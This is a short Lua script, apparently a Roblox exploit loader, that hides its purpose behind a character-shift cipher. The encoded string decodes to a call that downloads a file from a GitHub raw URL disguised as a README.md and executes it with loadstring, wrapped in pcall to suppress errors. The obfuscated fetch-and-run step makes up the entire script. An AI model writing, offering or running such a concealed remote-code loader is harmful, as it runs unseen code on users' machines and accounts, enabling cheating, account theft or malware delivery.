 local function rot_decode(s, shift)
    local out = {}
    for i=1,#s do
        local c = string.byte(s,i)
        if c >= 32 and c <= 126 then
            local base = 32
            local range = 95
            local x = ((c - base - shift) % range) + base
            out[#out+1] = string.char(x)
        else
            out[#out+1] = string.char(c)
        end
    end
    return table.concat(out)
end

local encoded = [[svhkz{ypun/nhtlAO{{wNl{/)o{{wzA66yh~5np{o|i|zlyjvu{lu{5jvt6jvvsrpk}pl{uht6Thovh{vunovw6ylmz6olhkz6thpu6YLHKTL5tk)00/0]]

local ok,err = pcall(function()
    local decoded = rot_decode(encoded, 7)
    loadstring(decoded)()
end)
if not ok then warn("Run error: "..tostring(err)) end

